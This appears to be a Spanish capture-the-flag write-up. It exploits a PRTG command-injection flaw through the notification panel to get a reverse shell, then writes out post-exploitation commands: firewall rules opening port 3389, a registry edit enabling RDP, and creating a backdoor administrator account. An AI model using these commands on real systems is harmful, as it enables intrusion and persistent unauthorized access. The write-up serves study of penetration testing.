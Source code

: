 ![](https://lh5.googleusercontent.com/uRkIFqbAmx812tuMLt3BHsFWS_1UIC0Skxl9oMA-sPgwO2Cs26Ru2-DIs4ulgvMTXqdWoTOIPz9fKZwRqB86Zr1mjRd6oNa2lV1T2hxnQKXtKZeXOZAQTNyxjvTidkjPO2cXqOIK)

Web: [PRTG < 18.2.39 Command Injection Vulnerability ](https://www.codewatch.org/blog/?p=453).

# Explotación de vulnerabilidades.

Según el articulo nosotros somos capaces de inyectar comandos a través de un panel de notificación que permite la ejecución de programas.


Nos dirigimos a **Account Settings** -> **Notifications** ->  **Add Notification** -> **Execute Program**.

Creamos una nueva notificación a la que le pondré de nombre Reverse shell y en la sección de Programa a ejecutar escribo lo siguiente:

![](https://lh3.googleusercontent.com/2Bf1BnARZyeIEDcT0wr6yEmO-99y4dZ_bUYqdyMZbWWutThx5nsdba5lNa2a2LwpmQuQYMEjtxLKCBtX0sqytTniZaWhAP2nxZEy6lrK1iBOIpz1DII3_gxSj586WCDwgsWjnpf3)

Lo que haré a continuación será montarme un servidor con samba que comparta el binario de `nc.exe` para mandarme una reverse shell directamente desde mi servidor utilizando la vulnerabilidad.

Ejecutamos la notificación.

![](https://lh3.googleusercontent.com/usgKmWacfLl4gMdoT6dPfdrZgTcnqltNJZ07dOwmy8rWas9nJHE6nrXT9davBh3VQB2mC1is7qj1hsVH3uCuusiJjzVNw4-zA18sIstX8PQa2IsNJSByyokSv07c66WKtFRCvLrn)

![](https://lh4.googleusercontent.com/L2L19EM7NSTvnGBZA5xRITAdP90MMhLO8XgZ4DoFL4mXuXVjYz_EMXtcfFhrjMQy_CxkbHiFagazULmuC5oZWO9lEHY_XP7tIAH_Tek7ILeuAMW66jTlgQzgdp73V8x2Frn7xtsD)

**¡¡Somos Administradores!!**

![enter image description here](https://i2.wp.com/media0.giphy.com/media/mQG644PY8O7rG/giphy.gif)

# Escritorio Remoto.

Antes de terminar me gustaría conectarme de manera remota a la máquina, para ello creo una regla de firewall que permita el trafico de entrada y salida por el puerto 3389.
```console
C:\Windows\system32>  netsh advfirewall firewall add rule name="RDP" protocol=TCP dir=in localport=3389 action=allow
C:\Windows\system32>  netsh advfirewall firewall add rule name="RDP" protocol=TCP dir=out localport=3389 action=allow
```
Después habilitamos el RDP modificando los registros.

```console
C:\Windows\system32>  reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

Después nos creamos un usuario y lo convertimos en administrador.

```console
C:\Windows\system32> net user intrusion Hola123! /add
C:\Windows\system32> net localgroup Administrators intrusion /add
```
